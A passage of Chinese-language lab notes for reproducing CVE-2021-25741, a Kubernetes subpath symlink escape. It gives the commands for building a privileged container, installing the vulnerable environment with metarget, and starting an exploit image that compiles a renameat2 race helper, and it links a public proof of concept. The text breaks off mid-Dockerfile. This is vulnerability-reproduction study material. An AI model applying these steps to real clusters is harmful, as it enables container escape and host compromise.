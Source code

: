 
### CVE-2021-25741
> POC: https://github.com/Betep0k/CVE-2021-25741<br>

1. 下载对应版本go并构建
```
docker build --build-arg GOVER=1.18.1 -t metarget:go1.18.1 .
```
2. 启动容器
```
docker run --name master --privileged -v /lib/modules:/lib/modules -v /etc/localtime:/etc/localtime -idt metarget:go1.18.1
```
3. 进入容器安装漏洞环境
```
docker exec -it master /bin/bash
export LC_CTYPE=en_US.UTF-8
cd metarget
./metarget cnv install cve-2021-25741 --domestic --taint-master
```
4. 安装成功
![](/assets/img/k8s_env9.png)
5. 创建exp镜像，下载[renameat2.c](/assets/c/renameat2.c)
```
cat << eof > sources.list
deb http://mirrors.aliyun.com/ubuntu/ bionic main restricted
deb http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted
deb http://mirrors.aliyun.com/ubuntu/ bionic universe
deb http://mirrors.aliyun.com/ubuntu/ bionic-updates universe
deb http://mirrors.aliyun.com/ubuntu/ bionic multiverse
deb http://mirrors.aliyun.com/ubuntu/ bionic-updates multiverse
deb http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse
deb http://mirrors.aliyun.com/ubuntu bionic-security main restricted
deb http://mirrors.aliyun.com/ubuntu bionic-security universe
deb http://mirrors.aliyun.com/ubuntu bionic-security multiverse
eof
cat << eof > Dockerfile
FROM ubuntu:bionic
WORKDIR /root
COPY renameat2.c /root
COPY sources.list /etc/apt
RUN apt update && apt install -y gcc && gcc renameat2.c -o renameat2 && mv renameat2 /usr/bin && rm renameat2.c
```